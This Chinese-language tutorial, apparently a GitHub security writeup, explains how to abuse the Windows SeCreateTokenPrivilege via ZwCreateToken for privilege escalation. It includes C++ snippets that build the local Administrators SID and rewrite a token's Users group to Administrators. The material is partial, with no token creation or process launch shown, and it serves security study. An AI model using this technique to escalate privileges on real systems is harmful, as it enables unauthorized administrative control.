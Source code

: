 禁止任何公众号/营销号转发
=============

SeCreateTokenPrivilege
----------------------

在 Windows 系统中，存在一个名为 SeCreateTokenPrivilege 的特权，它在 Microsoft 官方文档中被描述为 “*Create a token object*”。它被认为是 “上帝” 权限，因为拥有该特权的任何进程能够通过 ZwCreateToken API 创建主令牌，该函数是 Windows 操作系统的 Native API，其语法如下。

```c++
NTSTATUS ZwCreateToken(
    OUT PHANDLE TokenHandle,
    IN ACCESS_MASK DesiredAccess,
    IN POBJECT_ATTRIBUTES ObjectAttributes,
    IN TOKEN_TYPE Type,
    IN PLUID AuthenticationId,
    IN PLARGE_INTEGER ExpirationTime,
    IN PTOKEN_USER User,
    IN PTOKEN_GROUPS Groups,
    IN PTOKEN_PRIVILEGES Privileges,
    IN PTOKEN_OWNER Owner,
    IN PTOKEN_PRIMARY_GROUP PrimaryGroup,
    IN PTOKEN_DEFAULT_DACL DefaultDacl,
    IN PTOKEN_SOURCE Source
);
```

- TokenHandle：用于接收创建的访问令牌的句柄。
- DesiredAccess：访问令牌的所需访问权限，使用 `TOKEN_ALL_ACCESS` 可以获得所有权限。
- ObjectAttributes：指向 `OBJECT_ATTRIBUTES` 结构的指针，用于指定令牌对象的属性。
- Type：指定要创建的令牌的类型，如 TokenPrimary 或 TokenImpersonation。
- AuthenticationId：指定令牌的身份验证标识。
- ExpirationTime：指定令牌的过期时间，或使用 `NULL` 表示不设置过期时间。
- User：指向 `TOKEN_USER` 结构的指针，用于指定令牌所属的用户。
- Groups：指向 `TOKEN_GROUPS` 结构的指针，用于指定令牌所属的组。
- Privileges：指向 `TOKEN_PRIVILEGES` 结构的指针，用于指定令牌的特权。
- Owner：指向 `TOKEN_OWNER` 结构的指针，用于指定令牌的所有者。
- PrimaryGroup：指向 `TOKEN_PRIMARY_GROUP` 结构的指针，用于指定令牌的主组。
- DefaultDacl：指向 `TOKEN_DEFAULT_DACL` 结构的指针，用于指定令牌的默认 DACL。
- Source：指向 `TOKEN_SOURCE` 结构的指针，用于指定令牌的源标识。

如果我们接管了拥有 SeCreateTokenPrivilege 特权的账户或进程，就可以通过 `ZwCreateToken()` 函数制作一个新的模拟令牌并添加特权组的 SID，实现特权提升。

如前所述，我们希望在令牌上启用本地管理员组。为此，我们使用本地管理员组的 RID 构建一个 SID：

```c++
// S-1-5-32-544
SID_BUILTIN LocalAdminGroupSID = { 1, 2,{ 0, 0, 0, 0, 0, 5 },{ 32,                                                DOMAIN_ALIAS_RID_ADMINS } };
```

然后我们遍历令牌的组并将其从当前用户提升为管理员：

```c++
for (DWORD i = 0; i < pTokenGroups->GroupCount; i++)
{
    pSid = (PISID)pTokenGroups->Groups[i].Sid;
    if (pSid->SubAuthority[pSid->SubAuthorityCount - 1] == DOMAIN_ALIAS_RID_USERS)
    {
        memcpy(pSid, &LocalAdminGroupSID, sizeof(LocalAdminGroupSID));
        pTokenGroups->Groups[i].Attributes = SE_GROUP_ENABLED;
        wprintf(L"[*] Add extra SID S-1-5-32-544 to token.\n");
    }
}
```
